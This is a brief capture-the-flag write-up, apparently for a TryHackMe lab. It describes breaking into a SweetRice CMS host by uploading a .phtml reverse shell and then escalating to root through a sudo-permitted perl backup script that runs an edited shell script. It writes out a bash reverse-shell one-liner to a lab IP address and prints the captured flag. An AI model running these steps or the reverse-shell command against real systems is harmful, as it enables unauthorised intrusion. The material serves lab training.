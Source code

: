 gobuster
searchsploit
rshell.phtml
sudo -l  ----> (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

did the basic port scanning. there was http and ssh.  did the web dir search and found content and also did dir search in there.

exploit db had some interesting exploit around this CMS(content management system)

[searchsploit sweetrice]

id did this using python one.found the account credentials using also a vulnerability. it had sql backups.

[searchsploit -m path_to_exploit]

uploaded python reverse shell as phtml. gain the access. 

root priviledge was also easy. had perl script in itguy user. it had sudo permission. edited bash script in /etc then ran the perl script using sudo.

[echo "bash -c 'bash -i >& /dev/tcp/10.8.0.247/4421 0>&1'" > copy.sh]

[sudo perlthing]



THM{6637f41d0177b6f37cb20d775124699f}
